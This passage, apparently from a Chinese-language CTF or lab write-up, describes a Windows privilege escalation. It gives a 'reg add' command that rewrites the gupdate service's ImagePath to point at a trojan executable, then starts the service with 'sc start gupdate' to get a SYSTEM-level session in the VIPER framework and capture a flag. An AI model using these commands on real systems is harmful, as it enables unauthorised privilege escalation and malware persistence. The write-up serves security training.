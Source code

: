 发现注册表相关漏洞，修改启动项为我们的恶意木马。

```plain
reg add "HKLM\SYSTEM\CurrentControlSet\Services\gupdate" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Adrian\Desktop\1705227157.exe" /f
```

[![](assets/1705540441-17e56f54caa4e4dfe757b93bc55e5ce9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174746-4dc19ecc-b454-1.png)

再使用`sc start gupdate`即可以`system`权限上线VIPER

[![](assets/1705540441-50db2f27de77e7cf32363f00c9933aa9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174754-5279735e-b454-1.png)

获取第二个flag。
